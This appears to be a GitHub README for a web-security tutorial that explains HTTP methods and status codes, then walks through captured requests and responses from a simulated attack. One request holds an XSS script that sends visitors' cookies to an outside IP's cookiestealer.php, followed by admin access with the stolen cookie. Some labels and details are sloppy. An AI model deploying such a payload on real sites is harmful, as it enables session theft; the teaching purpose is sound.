 # WebDevSecTutorial
Web Security through HTTP Protocols

## This project is aimed for an understanding of HTTP requests and responses. Managing cookies using Chrome extensions and using Chrome's Developer Tools to audit HTTP request and response headers.

The HTTP protocol is probably the most important aspect when it comes to the internet. All major networks to countless smaller networks all communicate through HTTP. It's important to understand how attackers can leverage HTTP protocols to compromise systems and gather sensitive data.

### Firstly, understanding the Client-Server Model.

Typical client-server communication:
1. The client (a user) communicates with a server in order to request resources/information from it.
2. The server then queries the resources from the internal servers that it is connected to
3. The server sends a response back to the client.

In order for the client and servers to communicate over the web, the HTTP protocol is used. HTTP is Layer 7 of the OSI Model and is used to transfer web pages, static assets, HTML markup files, raw data (Mp4, mp3).

#### HTTP Request Methods

**GET** : Requests data from a server, RETRIEVES

**POST** : Sends data to the specified resource, often it changes or updates the server

**PUT** : Replaces or updates resources with the request payload.

**DELETE** : Deletes the specified resource from the server

**CONNECT** : Establishes a tunnel to the server.

**OPTIONS** : Describes the communication options for the specified resource.

**200** codes indicate success.

**300** codes indicate multiple choices, meaning the server can respond to the request in more than one way.

**400** codes indicate client errors, meaning the client sent an improperly formatted request.


404 is a common example of a 400 code, indicating that a webpage doesn't exist or can't be accessed.


500 codes indicate server errors, meaning the server application failed somehow.

#### Web Attack Activity
The following are examples and explanations of HTTP Repsonse and Requests. 

Presented with a HTTP Response, investigate the HTTP sequences of a web attack that has occurred on your company's server:

##### HTTP Response 1
```
HTTP/1.1 200 OK
Date: Tue, 25 Sep 2018 21:21:20 GMT
Server: Apache/2.2.21 (Unix mod_ssl/2.2.21 OpenSSL/1.0.0k DAV/2 PHP/5.4.3)
WWW-Authenticate: Cookie realm="fakesite"
Allow: OPTIONS, GET, POST, HEAD, PUT
```

The OPTIONS method was used. The attacker was in the reconnaissance phase where they had discovered all availabled HTTP methods that can be requested to the HTTP server. The OPTIONS method is useful for finding out what kind of request methods can be leveraged while attempting to compromise an HTTP server.

##### HTTP Response 2
```
HTTP/1.1 401 Unauthorized
WWW-Authenticate: Cookie realm="fakesite"
        form-action="/login"
        cookie-name=AUTH-COOKIE
Content-Type: text/html

<title>Unauthorized</title>
<form action="/login" method=POST>
<input type=hidden name=referer value="/fakesite/">
<p><label>Username: <input name=user></label>
<p><label>Password: <input name=pwd >type=password></label>
<p><button type=submit>Sign in</button>
<p><a href="/register">Register for an account</>a></form>

```
This HTTP response displays an attempt to log into a login portal with a POST request.

##### HTTP Request 1
```
PUT /XSS.html HTTP/1.1
>User-Agent: Mozilla/4.0 (compatible; MSIE5.01; Windows NT)
>Host: www.fakesite.com/blog
>
><script type="text/javascript">
document.location='http://133.7.13.37/cookiestealer.php?c='+document.cookie;
></script>
```
##### HTTP Response 3
```
HTTP/1.1 201 Created
Date: Mon, 05 May 2014 12:28:53 GMT
Server: Apache/2.2.14 (Win32)
Content-type: text/html
Content-length: 30
Connection: Closed
```
The attacker used the PUT method and uploaded the 'cookiestealer.php' file onto the site. The attacker then performed XSS (Cross-site scripting) to steal cookies of users and send the cookies back to their own server.

##### HTTP Response 4
```
GET https://www.fakesite.com/admin HTTP/1.1
Cookie: $Version="1"; AUTH-COOKIE="sdf354s5c1s8e1s"; $Path="/admin"
```

From HTTP Response 3, the PUT request was a success. Response 4 confirms that the attacker stole a cookie and was able to log into the admin portal using a GET request with stolen cookies set in the header.
